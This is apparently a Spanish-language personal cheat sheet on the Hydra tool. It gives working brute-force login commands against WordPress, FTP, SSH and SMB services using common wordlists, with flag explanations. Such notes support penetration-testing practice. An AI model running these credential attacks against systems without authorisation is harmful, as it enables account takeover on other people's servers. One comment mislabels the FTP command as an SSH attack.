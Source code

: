 # Hydra 

Tags: #Hydra 

Es una herramienta de prueba de penetracion que se utiliza para realizar ataques de fuerza bruta, por asi decirlo, en servicios de autenticacion remotos. Esta herramientas nos ayuda a poder encontrar passwd mediante ataques futivos. 

- Soporte de multiples protocolos: Hydra es compatible con una amplia gama de protocolos de autenticacion incluyendo: SSH, Telnte, FTP, HTTP, POP3, SMB, etc...
* Fuerza bruta avanzada: Hydra es capas de realizar ataques de fuerza bruta avanzados, incluyendo ataques de diccionario y ataques basados en patrones. 
	* Podemos usar los diccionarios que ya viene en Parrot o Kali Linux (rockyou.txt)
* Modos de operacion flexibles: Hydra admite diferentes modos de operacion, incluyendo modo de ataque directo, modo de ataque de diccionario y modo de ataque hibrido.
* Capacidad de parelelizacion: Hydra es capas de realizar multiples intentos de autenticacion simultaneamente, lo que mejora la velocidad y la eficiencia del ataque. 

- Casos de uso:
	- Pruebas de pentracion 
	- Audiroria de passwd
	- Recuperacion de passwd

## Hydra fuerza bruta WordPress

Esto se usa en el panel del admin de WordPress.
```python
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid user'
# Haremos un ataque de fuerza bruta a WordPress

	# l (ele) = Usuario que en este caso es  'omar'
	# P = Ruta del diccionario
	# log y pwd = Lo podemos encontrar en el apartado de la pagina web 'Ctrl + u' 
	# S = Redireccionamiento con el codigo 302
	# F = Error que nos muestre el panel de autenticacion, por si no sirve con el 'S'
```


## Hydra fuerza bruta FTP
```python
❯ hydra -l omar -P /usr/share/wordlists/rockyou.txt ftp://❮IP❯ -t 15 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ❮IP❯ ftp

	# l (ele) = Usuario que en este caso es  'omar'
	# L = Indicas un archivo que disponga de usuarios 
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# t = Lanzar tareas en paralelo al mismo tiempo
```

## Hydra fuerza bruta SSH

```python
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://❮IP❯ 
# Haremos un ataque de fuerza bruta al puerto SSH

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# L = Ruta del diccionario o 'archivo que contiene users'
```

```python
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ❮IP❯ ssh
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://❮IP❯ -t 15 -V -s 2222 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# l (ele) = usuario que en este caso es  'root'
	# t = Lanzar tareas en paralelo al mismo tiempo
	# V = Verbosity
	# s = Port y es el puerto al que nos queremos conectar 
```

## Hydra fuerza bruta SMB
```python 
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt smb://<IP>        # Fuerza bruta al usuario en el servidor SMB
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> smb

❯ hydra -L user.list -P password.list smb://<IP>        # Para ver si esos usuarios y passwd son validos en un servidor SMB

	# L = Ruta o archivo que contiene los usuarios
	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico
```